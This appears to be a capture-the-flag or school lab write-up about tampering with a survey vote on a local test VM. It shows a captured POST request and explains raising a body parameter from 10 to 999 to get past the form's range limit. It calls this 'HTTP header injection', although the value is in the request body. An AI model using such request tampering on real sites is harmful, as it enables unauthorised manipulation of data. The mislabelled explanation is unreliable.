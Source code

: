 # HTTP Header Injection

Passing datas through header could be a serious breach as we can use a tool like BurpSuite to modify it.

The survey page allows us to vote for some users, icking a note between 1 and 10 in a list.
Let's check the request:
```shell
POST /?page=survey HTTP/1.1
Host: 192.168.56.102
Content-Length: 17
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.56.102
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-GPC: 1
Accept-Language: en-US,en
Referer: http://192.168.56.102/?page=survey
Accept-Encoding: gzip, deflate, br
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327; arp_scroll_position=0
Connection: close

sujet=2&valeur=10
```
We can see the value is sent to server in the header, so if the server doesn't check this value we can modifiy our header and send any value > 10, out of range of the initial list.
So we change _sujet=2&valeur=10_ to sujet=2&valeur=999
and send request.

## External Resources

https://blog.yeswehack.com/yeswerhackers/http-header-exploitation/